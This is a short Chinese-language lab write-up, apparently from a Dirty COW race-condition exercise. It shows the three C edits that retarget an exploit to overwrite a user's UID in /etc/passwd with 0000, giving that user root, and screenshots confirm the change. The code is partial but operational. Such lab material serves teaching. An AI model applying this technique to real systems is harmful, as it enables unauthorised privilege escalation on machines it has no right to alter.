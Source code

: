 ### Task 2: Modify the Password File to Gain the Root Privilege

新建用户charlie：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012325591.png)

需要修改charlie在`/etc/passwd`中的条目，即把第三个字段从1001改成0000，将charlie变成了一个根帐户。

只需要做三处修改：

- `main`函数中把target file改成`/etc/passwd`：

  ```c
    // Open the target file in the read-only mode.
    int f=open("/etc/passwd", O_RDONLY);
  ```

- `main`函数中把target area改成`"1001"：`

  ```c
    // Find the position of the target area
    char *position = strstr(map, "1001");     
  ```

- `writeThread`中把要写入的内容改成`"0000"`：

  ```c
    char *content= "0000";
  ```

重新编译，运行一段时间后再查看`/etc/passwd`中的内容，发现已经被修改：

![image-20220505202949381](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012325087.png)

![image-20220505203018831](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012325692.png)









